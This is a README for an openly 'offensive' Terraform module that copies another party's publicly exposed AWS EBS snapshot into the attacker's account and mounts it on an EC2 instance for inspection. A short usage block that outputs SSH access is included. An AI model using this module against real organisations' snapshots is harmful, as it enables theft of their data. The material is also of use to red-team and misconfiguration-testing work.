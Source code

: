 # AWS EBS Snapshot Publicly Exposed

![OffensiveTerraform](https://img.shields.io/badge/hack-success)
![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-blueviolet)
![OffensiveTerraform](https://img.shields.io/badge/aws-important)

Offensive Terraform module which copies publicly exposed EBS snapshot to us-east-1 region in attacker's AWS account and creates EBS volume from a copied EBS snapshot. After that, the module attaches and mounts an EBS volume to an EC2 instance.

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/ebs-snapshot-publicly-exposed/master/diagram.jpg)

## Usage
```
module "ebs-snapshot-publicly-exposed" {
    source  = "offensive-terraform/ebs-snapshot-publicly-exposed/aws"

    public_snapshot_id = "snap-000000000000"
}

output "ssh_private_key" {
  value = module.ebs-snapshot-publicly-exposed.ssh_private_key
}

output "ssh_ec2_connect" {
  value = module.ebs-snapshot-publicly-exposed.ssh_ec2_connect
}
```

## Author
Module managed by https://github.com/iganbold
